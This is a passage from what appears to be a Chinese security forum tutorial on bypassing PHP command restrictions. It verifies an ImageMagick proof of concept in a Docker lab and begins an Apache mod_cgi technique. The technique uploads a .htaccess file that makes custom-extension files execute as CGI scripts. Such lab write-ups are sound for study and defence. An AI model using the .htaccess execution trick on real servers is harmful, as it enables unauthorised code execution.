```php
docker pull medicean/vulapps:i_imagemagick_1
docker run -d -p 8000:80 --name=i_imagemagick_1 medicean/vulapps:i_imagemagick_1
```

访问`phpinfo.php`,发现开启了imagemagick服务  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ec45d667e4edaa958bee7232a924272efdebe343.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ec45d667e4edaa958bee7232a924272efdebe343.png)

进入容器:`docker run -t -i medicean/vulapps:i_imagemagick_1  "/bin/bash"`

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d4a7ef734a75ba9f5a626b88873ae71b51356a26.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d4a7ef734a75ba9f5a626b88873ae71b51356a26.png)

查看`poc.php`,这其实是已经写好的poc,执行命令就是`ls -la`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c2f1edefe0d400352c9528def9e7aefbb047dd82.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c2f1edefe0d400352c9528def9e7aefbb047dd82.png)

验证poc,在容器外执行`docker exec i_imagemagick_1 convert /poc.png 1.png`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-54c3d439cbd70a8c4d1d0d9de071ca1a32eb9e9c.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-54c3d439cbd70a8c4d1d0d9de071ca1a32eb9e9c.png)

利用 Apache Mod CGI
-----------------

利用条件:

- Apache + PHP (apache 使用 apache\_mod\_php)
- Apache 开启了 cgi, rewrite
- Web 目录给了 AllowOverride 权限

### 关于mod\_cgi是什么

[http://httpd.apache.org/docs/current/mod/mod\_cgi.html](http://httpd.apache.org/docs/current/mod/mod_cgi.html)  
任何具有MIME类型application/x-httpd-cgi或者被cgi-script处理器处理的文件都将被作为CGI脚本对待并由服务器运行，它的输出将被返回给客户端。可以通过两种途径使文件成为CGI脚本，一种是文件具有已由AddType指令定义的扩展名，另一种是文件位于ScriptAlias目录中。  
当Apache 开启了cgi, rewrite时，我们可以利用.htaccess文件，临时允许一个目录可以执行cgi程序并且使得服务器将自定义的后缀解析为cgi程序，则可以在目的目录下使用.htaccess文件进行配置。

### 如何利用

由于环境搭建困难,使用蚁剑的[docker](https://github.com/AntSwordProject/AntSword-Labs)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4d4822e3195b6537661e5b0ee0d72f8acbcf8eda.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4d4822e3195b6537661e5b0ee0d72f8acbcf8eda.png)

在web目录下上传`.htaccess`文件

```php
Options +ExecCGI
AddHandler cgi-script .ant
```

